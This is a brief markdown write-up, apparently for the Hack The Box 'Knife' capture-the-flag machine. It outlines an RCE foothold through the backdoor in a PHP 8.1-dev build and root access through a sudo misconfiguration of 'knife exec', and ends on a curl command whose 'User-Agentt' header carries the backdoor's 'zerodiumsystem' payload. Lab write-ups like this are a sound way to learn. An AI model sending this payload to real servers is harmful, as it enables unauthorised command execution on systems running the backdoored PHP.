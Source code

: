 ---
title: "HTB — Knife (Easy)"
date: 2025-09-01
summary: "Foothold via PHP 8.1-dev backdoor, privesc with sudo knife exec."
platform: HTB
difficulty: Easy
tags: [web, rce, privesc, sudo]
repo: "https://github.com/yourname/knife-notes"
---


## TL;DR
- Enumerate → find PHP 8.1-dev backdoor header → RCE.
- Reuse `knife exec` with sudo misconfig → root.


```bash
curl -H "User-Agentt: zerodiumsystem('id');" http://target